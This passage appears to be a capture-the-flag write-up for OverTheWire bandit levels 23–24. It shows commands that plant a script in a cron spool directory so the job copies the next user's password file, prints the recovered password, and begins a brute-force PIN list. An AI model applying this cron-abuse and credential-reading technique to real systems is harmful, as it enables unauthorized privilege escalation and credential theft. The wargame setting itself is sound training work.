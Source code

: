 ```bash
```

```bash
bandit23@bandit:/etc/cron.d$ cd /tmp/
bandit23@bandit:/tmp$ mkdir pass24
bandit23@bandit:/tmp$ cd pass24
bandit23@bandit:/tmp/pass24$ touch getpass.sh
bandit23@bandit:/tmp/pass24$ touch pass
bandit23@bandit:/tmp/pass24$ vim getpass.sh
```

```bash
#!/bin/bash                                                                   

cat /etc/bandit_pass/bandit24 > /tmp/pass24/pass
```

```bash
bandit23@bandit:/tmp/pass24$ chmod a+rwx pass
bandit23@bandit:/tmp/pass24$ ls -lah
total 1.1M
drwxr-sr-x    2 bandit23 root 4.0K Jun  5 18:27 .
drwxrws-wt 5118 root     root 1.1M Jun  5 18:44 ..
-rw-r--r--    1 bandit23 root   62 Jun  5 18:24 getpass.sh
-rwxrwxrwx    1 bandit23 root    0 Jun  5 18:23 pass
bandit23@bandit:/tmp/pass24$ chmod a+rwx getpass.sh
bandit23@bandit:/tmp/pass24$ ls -lah
total 1.1M
drwxr-sr-x    2 bandit23 root 4.0K Jun  5 18:27 .
drwxrws-wt 5118 root     root 1.1M Jun  5 18:45 ..
-rwxrwxrwx    1 bandit23 root   62 Jun  5 18:24 getpass.sh
-rwxrwxrwx    1 bandit23 root    0 Jun  5 18:23 pass
```

```bash
bandit23@bandit:/tmp/pass24$ cp getpass.sh /var/spool/bandit24/
```

- The password is obtained in the specified file after 1min
- `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

### bandit24

```bash
bandit24@bandit:/tmp/pswdcomb$ touch pc
bandit24@bandit:/tmp/pswdcomb$ for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> /tmp/pswdcomb/pc; done;
```

- pc file stores the password `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` and numbers from 0 to 9999 separated by space.

```bash
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0005
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0006
```
